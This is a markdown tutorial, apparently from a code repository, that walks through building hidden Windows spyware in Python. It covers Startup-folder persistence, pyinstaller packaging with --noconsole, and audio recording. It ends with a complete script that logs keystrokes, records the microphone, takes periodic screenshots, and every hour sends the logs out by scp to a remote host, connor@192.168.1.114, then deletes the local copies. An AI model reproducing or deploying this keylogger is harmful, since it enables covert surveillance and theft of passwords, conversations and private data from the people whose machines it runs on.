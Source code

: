# Auto-run

This will discuss windows executables

you can do windows+R the type shell:startup

It will open C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Anything in this folder will run at boot



# Create simple python exe

Real malware isn't written in python lol but let's run with this

```
pip install pyinstaller
pyinstaller yourfile.py -F --onefile
```

# Make exe hidden

There will be a brief cmd popup whenever your script runs, very suspicious, let's remove it. 

There are many tutorials and many different ways and will probably change in future windows versions. 

A simple one in this case is add `--noconsole` to pyinstaller. 

# Recording audio

```
pip install pyaudio
```


```python
import pyaudio
import wave

def record_audio(seconds, filename):
    p = pyaudio.PyAudio() 
    fs = 44100
    chunk = 1024
    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
    frames = [] 
    for _ in range(0, int(fs / chunk * seconds)):
        data = stream.read(chunk)
        frames.append(data)
    stream.stop_stream()
    stream.close()
    p.terminate()
    wf = wave.open(filename, 'wb')
    wf.setnchannels(2)
    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
    wf.setframerate(fs)
    wf.writeframes(b''.join(frames))
    wf.close()

record_audio(seconds=10, filename="output.wav")
```


<br>

# Final

```python
# scp ... connor@192.168.1.114:/home/connor/Documents/...

import threading
from pynput.keyboard import Key, Listener
import os
import pyaudio
import wave
from time import sleep, time
from PIL import ImageGrab

count = 0
keys = []

user = os.environ.get("USERNAME")
basedir = f"C:\\Users\\{user}\\Documents\\system\\log"

def cleanup():
    os.system(f"del /Q {basedir}\\audio")
    os.system(f"del /Q {basedir}\\ss")

for d in [basedir, f"{basedir}/audio", f"{basedir}/ss"]:
    if not os.path.exists(d):
        os.makedirs(d)

def handle_keys():
    def on_press(key):
        global keys, count
        keys.append(key)
        count += 1
        if (count >= 1):
            count = 0
            write_file(keys)
            keys = []

    def write_file(keys):
        with open (f"{basedir}/log.txt", "a") as f:
            for key in keys:
                k = str(key).replace("'","")
                if k.find("space") > 0:
                    f.write("\n")
                elif k.find("Key") == -1:
                    f.write(k)

    def on_release(key):
        return True #never release

    with Listener(on_press = on_press, on_release = on_release) as listener:
        listener.join()


def record_audio(seconds, filename):
    p = pyaudio.PyAudio() 
    fs = 44100
    chunk = 1024
    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
    frames = [] 
    for i in range(0, int(fs / chunk * seconds)):
        data = stream.read(chunk)
        frames.append(data)
    stream.stop_stream()
    stream.close()
    p.terminate()
    wf = wave.open(filename, 'wb')
    wf.setnchannels(2)
    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
    wf.setframerate(fs)
    wf.writeframes(b''.join(frames))
    wf.close()

def handle_audio():
    while True:
        fname = f"{basedir}/audio/{int(time())}"
        record_audio(seconds=3500, filename=fname)

def handle_ss():
    while True:
        snapshot = ImageGrab.grab()
        save_path = f"{basedir}/ss/{int(time())}.jpg"
        snapshot.save(save_path)
        sleep(20*60)


def handle_send():
    while True:
        sleep(3600)
        success = os.system(f"scp -r {basedir} connor@192.168.1.114:/home/connor/Documents/logs > NUL 2> NUL")
        if success == 0:
            cleanup() # delete after sending
          
if __name__ =="__main__":
    t1 = threading.Thread(target=handle_keys)
    t2 = threading.Thread(target=handle_audio)
    t3 = threading.Thread(target=handle_send)
    t4 = threading.Thread(target=handle_ss)

    t1.start()
    t2.start()
    t3.start()
    t4.start()

    t1.join()
    t2.join()
    t3.join()
    t4.join()
```
